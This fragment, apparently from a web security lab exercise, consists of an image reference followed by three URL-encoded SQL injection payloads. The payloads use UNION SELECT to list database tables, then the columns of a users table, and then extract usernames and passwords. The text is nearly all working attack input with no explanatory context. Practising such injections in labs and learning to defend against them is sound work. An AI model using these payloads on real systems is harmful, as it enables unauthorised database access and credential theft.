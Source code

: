 'UNION+SELECT+table_name,null+from+information_schema.tables--
'UNION+SELECT+column_name,null+from+information_schema.columns+where+table_name%3d'users_fbihjt'--
'UNION+SELECT+username_wokopc,password_kwjcxb+from+users_fbihjt--
